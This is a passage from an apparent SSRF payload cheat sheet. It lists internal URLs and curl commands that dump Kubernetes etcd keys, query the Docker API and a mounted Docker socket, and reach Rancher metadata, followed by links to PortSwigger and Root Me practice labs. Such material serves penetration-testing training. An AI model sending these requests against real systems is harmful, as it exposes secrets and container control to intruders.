 ### SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

- Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
- Docker Engine API: https://docs.docker.com/engine/api/latest/

### SSRF URL for Rancher

```powershell
curl http://rancher-metadata/<version>/<path>
```

More info: https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/


## Labs

* [PortSwigger - Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
* [PortSwigger - Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - Server Side Request Forgery](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)


## References
